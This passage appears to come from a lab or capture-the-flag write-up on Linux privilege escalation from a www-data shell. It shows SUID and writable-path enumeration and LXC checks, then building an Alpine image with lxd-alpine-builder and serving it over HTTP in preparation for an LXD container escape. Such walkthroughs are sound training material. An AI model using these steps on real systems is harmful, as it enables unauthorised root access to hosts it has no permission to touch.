 ```jsx
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/vmware-user-suid-wrapper
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/newgrp

www-data@ubuntu:/$ lxc version
Client version: 3.0.3
Server version: 3.0.3

www-data@ubuntu:/$ lxc image list
+-------+-------------+--------+-------------+------+------+-------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCH | SIZE | UPLOAD DATE |
+-------+-------------+--------+-------------+------+------+-------------+

www-data@ubuntu:/$ find / -writable 2>/dev/null

[REDACTED] - MORE

/opt/joomla/templates/
/opt/joomla/libraries/vendor/joomla/event
/opt/joomla/libraries/vendor/joomla/event/LICENSE
/opt/joomla/libraries/vendor/joomla/event/src

[REDACTED] - MORE

www-data@ubuntu:/$ 
```

`git clone https://github.com/saghul/lxd-alpine-builder.git`

`cd lxd-alpine-builder`

`./build-alpine`

`ls -lsa`

```jsx
   4 drwxr-xr-x  8 root root    4096 Dec 24 12:00 .git
  28 -rw-r--r--  1 root root   26530 Dec 24 12:00 LICENSE
   4 -rw-r--r--  1 root root     768 Dec 24 12:00 README.md
3184 -rw-r--r--  1 root root 3259593 Dec 24 12:00 alpine-v3.13-x86_64-20210218_0139.tar.gz                                                                                        
   8 -rwxr-xr-x  1 root root    8060 Dec 24 12:00 build-alpine
   4 drwxr-xr-x  5 root root    4096 Dec 24 12:01 rootfs
```

`python3 -m http.server 8000`

```jsx
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

